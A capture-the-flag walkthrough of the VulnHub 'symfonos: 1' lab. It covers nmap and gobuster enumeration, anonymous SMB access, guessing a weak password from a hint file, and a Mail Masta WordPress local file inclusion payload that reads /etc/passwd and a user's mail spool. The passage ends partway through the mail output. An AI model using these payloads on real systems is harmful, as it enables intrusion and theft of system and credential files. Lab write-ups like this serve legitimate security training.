





#Symfonos #netdiscover  #nmap #gobuster #wordpress #searchploit


### [VulnHub - Machine Information Page](https://www.vulnhub.com/entry/symfonos-1,322/)

### [YouTube - Tutorial](https://www.youtube.com/watch?v=dQq8r8AFj5Q)


---

- **Name**: symfonos: 1
- **Date release**: 29 Jun 2019
- **Author**: [Zayotic](https://www.vulnhub.com/author/zayotic,619/)
- **Series**: [symfonos](https://www.vulnhub.com/series/symfonos,217/)
- **Web page**: [https://blog.zay.li/symfonos-1-boot2root-ctf/](https://blog.zay.li/symfonos-1-boot2root-ctf/)

### Download

Please remember that VulnHub is a free community resource so we are unable to check the machines that are provided to us. Before you download, please read our FAQs sections dealing with the dangers of running unknown VMs and our suggestions for “protecting yourself and your network. If you understand the risks, please download!

- **symfonos1.7z** (Size: 739 MB)
- **Download**: [https://cdn.zayotic.com/symfonos1.7z](https://cdn.zayotic.com/symfonos1.7z)
- **Download (Mirror)**: [https://download.vulnhub.com/symfonos/symfonos1.7z](https://download.vulnhub.com/symfonos/symfonos1.7z)

### Description

Beginner real life based machine designed to teach a interesting way of obtaining a low priv shell. SHOULD work for both VMware and Virtualbox.

- Name: symfonos: 1
- Difficulty: Beginner
- Tested: VMware Workstation 15 Pro & VirtualBox 6.0
- DHCP Enabled

Note: You may need to update your host file for `symfonos.local`

### File Information

- **Filename**: symfonos1.7z
- **File size**: 739 MB
- **MD5**: A26759752F413FCD6BA7BE31B0D7862D
- **SHA1**: 126D57358E7B9AD713CF269A7F38E66B5D798744


---

# Installation 🔌💻🖥️🛜💾🔌

Extract the content of the symfonos1.7z file. Then apply ``symfonos-disk1.vmdk`` to a new instance of Linux 64x

Then set the network adapter to ``Host-Only`





---
---

# Enumeration

## netdiscover & nmap


```bash
# sudo netdiscover -i eth1
# sudo netdiscover -i eth1 -r 192.168.56.0/24
 Currently scanning: Finished!   |   Screen View: Unique Hosts                                                                                             
                                                                                                                                                           
 3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180                                                                                           
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.56.1    0a:00:27:00:00:07      1      60  Unknown vendor                                                                                          
 192.168.56.2    08:00:27:c6:ae:52      1      60  PCS Systemtechnik GmbH                                                                                  
 192.168.56.42   08:00:27:a7:ca:a4      1      60  PCS Systemtechnik GmbH  


# nmap -sC -sV 192.168.56.34 
# nmap -sC -sV 192.168.56.34 -p- 
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 192.168.56.42 -p-                  
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-28 13:08 CEST
Nmap scan report for 192.168.56.42
Host is up (0.0014s latency).
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 ab:5b:45:a7:05:47:a5:04:45:ca:6f:18:bd:18:03:c2 (RSA)
|   256 a0:5f:40:0a:0a:1f:68:35:3e:f4:54:07:61:9f:c6:4a (ECDSA)
|_  256 bc:31:f5:40:bc:08:58:4b:fb:66:17:ff:84:12:ac:1d (ED25519)
25/tcp  open  smtp        Postfix smtpd
| ssl-cert: Subject: commonName=symfonos
| Subject Alternative Name: DNS:symfonos
| Not valid before: 2019-06-29T00:29:42
|_Not valid after:  2029-06-26T00:29:42
|_smtp-commands: symfonos.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.25 (Debian)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:A7:CA:A4 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Hosts:  symfonos.localdomain, SYMFONOS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos
|   NetBIOS computer name: SYMFONOS\x00
|   Domain name: \x00
|   FQDN: symfonos
|_  System time: 2026-05-28T06:08:46-05:00
|_clock-skew: mean: 1h40m03s, deviation: 2h53m12s, median: 3s
| smb2-time: 
|   date: 2026-05-28T11:08:46
|_  start_date: N/A
|_nbstat: NetBIOS name: SYMFONOS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.37 seconds'

# --script
┌──(kali㉿kali)-[~]
└─$ nmap --script vuln 192.168.56.42                
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-30 11:47 CEST
Nmap scan report for symfonos.local (192.168.56.42)
Host is up (0.0022s latency).
Not shown: 995 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
| ssl-dh-params: 
|   VULNERABLE:
|   Anonymous Diffie-Hellman Key Exchange MitM Vulnerability
|     State: VULNERABLE
|       Transport Layer Security (TLS) services that use anonymous
|       Diffie-Hellman key exchange only provide protection against passive
|       eavesdropping, and are vulnerable to active man-in-the-middle attacks
|       which could completely compromise the confidentiality and integrity
|       of any data exchanged over the resulting session.
|     Check results:
|       ANONYMOUS DH GROUP 1
|             Cipher Suite: TLS_DH_anon_WITH_SEED_CBC_SHA
|             Modulus Type: Safe prime
|             Modulus Source: Unknown/Custom-generated
|             Modulus Length: 2048
|             Generator Length: 8
|             Public Key Length: 2048
|     References:
|_      https://www.ietf.org/rfc/rfc2246.txt
| smtp-vuln-cve2010-4344: 
|_  The SMTP server is not Exim: NOT VULNERABLE
80/tcp  open  http
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|_  /manual/: Potentially interesting folder
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:A7:CA:A4 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Host script results:
| smb-vuln-regsvc-dos: 
|   VULNERABLE:
|   Service regsvc in Microsoft Windows systems vulnerable to denial of service
|     State: VULNERABLE
|       The service regsvc in Microsoft Windows 2000 systems is vulnerable to denial of service caused by a null deference
|       pointer. This script will crash the service if it is vulnerable. This vulnerability was discovered by Ron Bowes
|       while working on smb-enum-sessions.
|_          
|_smb-vuln-ms10-061: false
|_smb-vuln-ms10-054: false

Nmap done: 1 IP address (1 host up) scanned in 44.14 seconds

```

We can confirm that the following ports are available
- 22/TCP - SSH - OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
- 25/TCP - SMTP - Postfix smtpd
	- Anonymous Diffie-Hellman Key Exchange MitM Vulnerability
- 80/TCP - HTTP - Apache httpd 2.4.25 ((Debian))
	- http-title: Site doesn't have a title (text/html).
- 139/TCP - netbios-ssn Samba smbd - 3.X - 4.X (workgroup: WORKGROUP)
- 445/TCP - netbios-ssn Samba smbd - 4.5.16-Debian (workgroup: WORKGROUP)

When checking the website, there is nothing such as logins or buttons of any kind, just a fancy image.


## GoBuster

```bash
# gobuster dir -u http://192.168.56.42/ -w /usr/share/wordlists/dirb/common.txt  
# gobuster dir -u http://192.168.56.42/secret -w /usr/share/wordlists/dirb/common.txt -x txt,php,html
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.56.42/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.42/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/index.html           (Status: 200) [Size: 328]
/manual               (Status: 301) [Size: 315] [--> http://192.168.56.42/manual/]
/server-status        (Status: 403) [Size: 301]
Progress: 4613 / 4613 (100.00%)
===============================================================
Finished
===============================================================

# wordpress scan: 
# wpscan --url http://192.168.56.38/assets/fonts/blog/
```

## SMBClient

```bash
# smbclient -L 192.168.56.42
┌──(kali㉿kali)-[~]
└─$ smbclient -L 192.168.56.42 -N
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        helios          Disk      Helios personal share
        anonymous       Disk      
        IPC$            IPC       IPC Service (Samba 4.5.16-Debian)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            SYMFONOS
# All the other shares gets Acces denied.
┌──(kali㉿kali)-[~]
└─$ smbclient '\\192.168.56.42\helios'   
Password for [WORKGROUP\kali]:
tree connect failed: NT_STATUS_ACCESS_DENIED
# This one is an exception.
┌──(kali㉿kali)-[~]
└─$ smbclient '\\192.168.56.42\anonymous'
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jun 29 03:14:49 2019
  ..                                  D        0  Sat Jun 29 03:12:15 2019
  attention.txt                       N      154  Sat Jun 29 03:14:49 2019
                19994224 blocks of size 1024. 17282108 blocks available
# Download a file from share
smb: \> get attention.txt
getting file \attention.txt of size 154 as attention.txt (12.5 KiloBytes/sec) (average 12.5 KiloBytes/sec)
smb: \> exit
```

if we check the content of the text file, we get this message, so a hint of bad, common and weak passwords.

```bash
┌──(kali㉿kali)-[~]
└─$ cat attention.txt                                            
Can users please stop using passwords like 'epidioko', 'qwerty' and 'baseball'! 

Next person I find using one of these passwords will be fired!

-Zeus
```

Now we try login with SMB as the helios user and try one of these passwords.

```bash
┌──(kali㉿kali)-[~]
└─$ smbclient '\\192.168.56.42\helios' -U helios
Password for [WORKGROUP\helios]:
# Baseball ❌
# qwerty ✔️
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jun 29 02:32:05 2019
  ..                                  D        0  Sat Jun 29 02:37:04 2019
  research.txt                        A      432  Sat Jun 29 02:32:05 2019
  todo.txt                            A       52  Sat Jun 29 02:32:05 2019
                19994224 blocks of size 1024. 17282104 blocks available
smb: \> get todo.txt 
getting file \todo.txt of size 52 as todo.txt (2.1 KiloBytes/sec) (average 2.1 KiloBytes/sec)
smb: \> get research.txt
getting file \research.txt of size 432 as research.txt (52.7 KiloBytes/sec) (average 14.8 KiloBytes/sec)

# Let's check the content
┌──(kali㉿kali)-[~]
└─$ cat research.txt 
Helios (also Helius) was the god of the Sun in Greek mythology. He was thought to ride a golden chariot which brought the Sun across the skies each day from the east (Ethiopia) to the west (Hesperides) while at night he did the return journey in leisurely fashion lounging in a golden cup. The god was famously the subject of the Colossus of Rhodes, the giant bronze statue considered one of the Seven Wonders of the Ancient World.

# 
┌──(kali㉿kali)-[~]
└─$ cat todo.txt 

1. Binge watch Dexter
2. Dance
3. Work on /h3l105


```

So /h3l105 is a sub-page for the webserver.



Seems to be powered by Wordpress, but any form of navigation on the site seems to be broken, we might be able to fix this by modifying our DNS host file.

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nano /etc/hosts
# Edit this file. Add the IP of the target with symfonos.local
127.0.0.1       localhost
127.0.1.1       kali.kali       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
192.168.56.38 blogger.thm
192.168.56.42 symfonos.local

```

Check the page from previous, now it works.


Let's now check the website for wordpress vulnerabilities.

```bash
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://symfonos.local/h3l105/
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
 
[+] URL: http://symfonos.local/h3l105/ [192.168.56.42]
[+] Started: Thu May 28 13:55:42 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.25 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://symfonos.local/h3l105/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://symfonos.local/h3l105/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://symfonos.local/h3l105/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://symfonos.local/h3l105/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.2.2 identified (Insecure, released on 2019-06-18).
 | Found By: Rss Generator (Passive Detection)
 |  - http://symfonos.local/h3l105/index.php/feed/, <generator>https://wordpress.org/?v=5.2.2</generator>
 |  - http://symfonos.local/h3l105/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.2</generator>

[+] WordPress theme in use: twentynineteen
 | Location: http://symfonos.local/h3l105/wp-content/themes/twentynineteen/
 | Last Updated: 2025-04-15T00:00:00.000Z
 | Readme: http://symfonos.local/h3l105/wp-content/themes/twentynineteen/readme.txt
 | [!] The version is out of date, the latest version is 3.1
 | Style URL: http://symfonos.local/h3l105/wp-content/themes/twentynineteen/style.css?ver=1.4
 | Style Name: Twenty Nineteen
 | Style URI: https://wordpress.org/themes/twentynineteen/
 | Description: Our 2019 default theme is designed to show off the power of the block editor. It features custom sty...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.4 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://symfonos.local/h3l105/wp-content/themes/twentynineteen/style.css?ver=1.4, Match: 'Version: 1.4'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] mail-masta
 | Location: http://symfonos.local/h3l105/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://symfonos.local/h3l105/wp-content/plugins/mail-masta/readme.txt

[+] site-editor
 | Location: http://symfonos.local/h3l105/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://symfonos.local/h3l105/wp-content/plugins/site-editor/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <============================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu May 28 13:55:45 2026
[+] Requests Done: 174
[+] Cached Requests: 5
[+] Data Sent: 46.15 KB
[+] Data Received: 520.694 KB
[+] Memory used: 262.148 MB
[+] Elapsed time: 00:00:03


```

If we look closely, we can read that the version is insecure 
`WordPress version 5.2.2 identified (Insecure, released on 2019-06-18).`

A theme can also be insecure - ``WordPress theme in use: twentynineteen - The version is out of date, the latest version is 3.1``

At the plugin overview we got something called `mail-masta`, which should also be a vulnerability.

---
---

# Foothold 🦶

```bash
# We use searchploit and search for mail-masta 1.0
┌──(kali㉿kali)-[~]
└─$ searchsploit mail-masta 1.0                                                                
--------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                           |  Path
--------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin Mail Masta 1.0 - Local File Inclusion                                                   | php/webapps/40290.txt
WordPress Plugin Mail Masta 1.0 - Local File Inclusion (2)                                               | php/webapps/50226.py
WordPress Plugin Mail Masta 1.0 - SQL Injection                                                          | php/webapps/41438.txt
--------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

# Mirror a copy of the exploit to your home directory
┌──(kali㉿kali)-[~]
└─$ searchsploit -m php/webapps/40290.txt
  Exploit: WordPress Plugin Mail Masta 1.0 - Local File Inclusion
      URL: https://www.exploit-db.com/exploits/40290
     Path: /usr/share/exploitdb/exploits/php/webapps/40290.txt
    Codes: N/A
 Verified: True
File Type: ASCII text
Copied to: /home/kali/40290.txt


┌──(kali㉿kali)-[~]
└─$ cat 40290.txt 
[+] Date: [23-8-2016]
[+] Autor Guillermo Garcia Marcos
[+] Vendor: https://downloads.wordpress.org/plugin/mail-masta.zip
[+] Title: Mail Masta WP Local File Inclusion
[+] info: Local File Inclusion

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

Source: /inc/campaign/count_of_send.php
Line 4: include($_GET['pl']);

Source: /inc/lists/csvexport.php:
Line 5: include($_GET['pl']);

Source: /inc/campaign/count_of_send.php
Line 4: include($_GET['pl']);

Source: /inc/lists/csvexport.php
Line 5: include($_GET['pl']);

Source: /inc/campaign/count_of_send.php
Line 4: include($_GET['pl']);

This looks as a perfect place to try for LFI. If an attacker is lucky enough, and instead of selecting the appropriate page from the array by its name, the script directly includes the input parameter, it is possible to include arbitrary files on the server.

Typical proof-of-concept would be to load passwd file:

http://server/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd  
```

By manipulating with the file path in the URL, we can with a Local File Inclusion exploit, gives us access to sensitive information, such as configuration files or credentials to further compromise the system.


```bash
# We replace the `server` with http://symfonos.local/h3l105/
http://server/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

http://symfonos.local/h3l105//wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
# this should reveal the content of this file.

# Content on the page:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
Debian-exim:x:105:109::/var/spool/exim4:/bin/false
messagebus:x:106:111::/var/run/dbus:/bin/false
sshd:x:107:65534::/run/sshd:/usr/sbin/nologin
helios:x:1000:1000:,,,:/home/helios:/bin/bash
mysql:x:108:114:MySQL Server,,,:/nonexistent:/bin/false
postfix:x:109:115::/var/spool/postfix:/bin/false
```




Let's see if we can find a wordpress configuration file, but we don't exactly know the location.

We know the syntax of the mail service `mail:x:8:8:mail:/var/mail:/usr/sbin/nologin` plus adding the username of helios
Let's try with a different URL: http://symfonos.local/h3l105//wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios

```bash
# The content of the webpage with the URL of:
# http://symfonos.local/h3l105//wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios
From root@symfonos.localdomain  Fri Jun 28 21:08:55 2019
Return-Path: <root@symfonos.localdomain>
X-Original-To: root
Delivered-To: root@symfonos.localdomain
Received: by symfonos.localdomain (Postfix, from userid 0)
	id 3DABA40B64; Fri, 28 Jun 2019 21:08:54 -0500 (CDT)
From: root@symfonos.localdomain (Cron Daemon)
To: root@symfonos.localdomain
Subject: Cron <root@symfonos> dhclient -nw
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/root>
X-Cron-Env: <PATH=/usr/bin:/bin>
X-Cron-Env: <LOGNAME=root>
Message-Id: <20190629020855.3DABA40B64@symfonos.localdomain>
Date: Fri, 28 Jun 2019 21:08:54 -0500 (CDT)

/bin/sh: 1: dhclient: not found

From MAILER-DAEMON  Thu May 28 06:00:10 2026
Return-Path: <>
X-Original-To: helios@symfonos.localdomain
Delivered-To: helios@symfonos.localdomain
Received: by symfonos.localdomain (Postfix)
	id 2820C40AFB; Thu, 28 May 2026 06:00:09 -0500 (CDT)
Date: Thu, 28 May 2026 06:00:09 -0500 (CDT)
From: MAILER-DAEMON@symfonos.localdomain (Mail Delivery System)
Subject: Undelivered Mail Returned to Sender
To: helios@symfonos.localdomain
Auto-Submitted: auto-replied
MIME-Version: 1.0
Content-Type: multipart/report; report-type=delivery-status;
	boundary="2EE7C40AB0.1779966009/symfonos.localdomain"
Content-Transfer-Encoding: 8bit
Message-Id: <20260528110010.2820C40AFB@symfonos.localdomain>

This is a MIME-encapsulated message.

--2EE7C40AB0.1779966009/symfonos.localdomain
Content-Description: Notification
Content-Type: text/plain; charset=utf-8
Content-Transfer-Encoding: 8bit

This is the mail system at host symfonos.localdomain.

I'm sorry to have to inform you that your message could not
be delivered to one or more recipients. It's attached below.

For further assistance, please send mail to postmaster.

If you do so, please include this problem report. You can
delete your own text from the attached returned message.

                   The mail system

